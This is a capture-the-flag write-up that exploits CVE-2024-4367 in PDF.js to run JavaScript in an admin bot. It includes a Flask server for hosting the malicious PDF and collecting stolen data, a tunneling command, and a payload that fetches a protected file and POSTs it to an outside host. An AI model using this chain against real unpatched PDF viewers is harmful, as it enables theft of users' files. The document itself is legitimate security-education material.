

# 1753 CTF - Do Not Cheat

My teammate found this challenge is vulnerable to [CVE-2024-4367](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4367), and the PoC script can be found [here](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox &lt; 126, Firefox ESR &lt; 115.11, and Thunderbird &lt; 115.11.

So the basic roadmap is: we host a malicious PDF file and report the URL to admin, when the admin bot visits this URL, the JavaScript code will be executed and we can open `/app/admin/flag.pdf`, then send the content to our server.

However, when we tried to host the PoC PDF document, my teammate's server failed on SSL handshake, and I used to use Ngrok to tunnel my local service to the internet, but since I’m on the free plan, Ngrok will show an interstitial page before redirecting to my local service. After some trials, I decided to use [serveo.net](https://serveo.net/). This allowed me to do the same thing without needing to install any additional dependencies (just SSH is required).

## Approach

So here's the full approach:

### Step 1

I start a local Flask server to host the PoC PDF document, and also to receive the content of `flag.pdf`.

```python
from flask import Flask, request, make_response, send_file

app = Flask(__name__)


@app.route("/pdf")
def serve_pdf():
    pdf_path = "poc.pdf"
    try:
        response = make_response(send_file(pdf_path, mimetype="application/pdf"))
        response.headers["Access-Control-Allow-Origin"] = "*"
        return response
    except FileNotFoundError:
        return {"error": "PDF not found"}, 404


@app.route("/flag", methods=["POST", "OPTIONS"])
def receive_flag():
    resp = make_response()
    if request.method == "OPTIONS":
        resp.headers["Access-Control-Allow-Origin"] = "*"
        resp.headers["Access-Control-Allow-Methods"] = "POST, OPTIONS"
        resp.headers["Access-Control-Allow-Headers"] = "Content-Type"
        return resp

    try:
        pdf_data = request.data
        with open("flag.pdf", "wb") as f:
            f.write(pdf_data)
    except Exception as error:
        print(error)
    finally:
        return resp


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5003)
```

Tips:

- Make sure to set the `Access-Control-Allow-Origin` header.
- Route `/flag` is for receiving the content of `flag.pdf`. Note that the challenge server will also send an `OPTIONS` request (and this is because we set `"Content-Type": "application/pdf"` in the XSS payload), so our Flask server needs to respond to it as well.  
  
- Use `host="0.0.0.0"` instead of `host="127.0.0.1"`, so that the service is accessible after tunneling to the internet. (Otherwise you may get a `403`.)

Then start the server:

```bash
python server.py
```

### Step 2

Run:

```
ssh -R 80:localhost:5003 serveo.net
```

And we will get something like:

```
Forwarding HTTP traffic from https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net
```

This is the public URL of our local service.

### Step 3

Now we generate malicious `poc.pdf` file. Download [`CVE-2024-4367.py`](https://github.com/LOURC0D3/CVE-2024-4367-PoC), create our `exp.py` as follows:

```python
import os

# ssh -R 80:localhost:5003 serveo.net
public_url = "https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net"

payload = f"""
fetch("/app/admin/flag.pdf")
.then(res => res.blob())
.then(blob =>
    fetch(
        "{public_url}/flag",
        {{
            method: "POST",
            body: blob,
            headers: {{"Content-Type": "application/pdf"}}
        }}
    )
)
"""

payload = payload.replace(" ", "").replace("\n", "")
print(payload)
os.system(f"python CVE-2024-4367.py '{payload}'")

print(f"Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document={public_url}/pdf")
```

Run the script:

```
python exp.py
```

And we will get something like:

```
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net/pdf
```

### Step 4

Open the URL, wait a while, and we will get `flag.pdf`.



## Flag
```
1753c{m0zz4r3ll4_pdfjs_h4d_4_bug}
```
